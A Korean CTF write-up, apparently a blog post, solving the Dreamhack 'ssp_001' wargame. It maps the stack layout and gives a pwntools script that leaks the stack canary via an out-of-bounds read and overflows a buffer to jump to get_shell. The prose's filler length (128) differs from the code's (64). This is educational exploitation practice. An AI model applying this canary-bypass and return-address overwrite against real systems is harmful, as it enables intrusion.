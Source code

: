 A 문자열과 Z 문자열이 잘 들어간게 보인다.  
구조를 보니 box가 name보다 상단에 들어가있다.(주소값이 더 작다는 뜻)  
각각 64바이트씩 잘 할당되어있고 메인 리턴 주소의 위치와 카나리의 위치, SFP 주소까지 전부 다 잘 나와있다.  


![image](https://github.com/user-attachments/assets/b19d52bb-4dc5-4882-9943-bf200015a16c)

더 이쁘게 보기 위해 box 주소값 기준으로 들어간 값을 보면 잘 이해가 된다.  

| box (64 byte) |
| --- |
| name (64 byte) |
| 카나리 (4 byte) |
| 더미 (4 byte) |
| ebp(SFP) (4 byte) |
| 리턴주소 (4 byte) |

이런 구조임이 밝혀졌으므로 box에서 128부터 131까지 카나리 값을 읽고 (널 바이트 제외)  
128 바이트 아무 값 + 읽은 카나리 + 8바이트 아무 값 + get_shell 주소  

이렇게 하면 되겠다.  

**코드**
```c
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = remote('host3.dreamhack.games', 21987)
context.arch = "i386"

e = ELF("./ssp_001")
get_shell = e.symbols['get_shell']

canary = b''

for i in range(128, 132):
    p.sendlineafter(b'> ', b'P')
    p.sendlineafter(b'Element index : ', str(i).encode())
    line = p.recvline()
    byte = int(line.strip().split()[-1], 16)
    canary += p8(byte)

slog("canary", u32(canary))

payload = b'A' * 64
payload += canary
payload += b'B' * 8
payload += p32(get_shell)

p.sendlineafter(b'> ', b'E')
p.sendlineafter(b'Name Size : ', str(1024))
p.sendafter(b'Name : ', payload)

p.interactive()
```
이걸 넣고 돌리면  
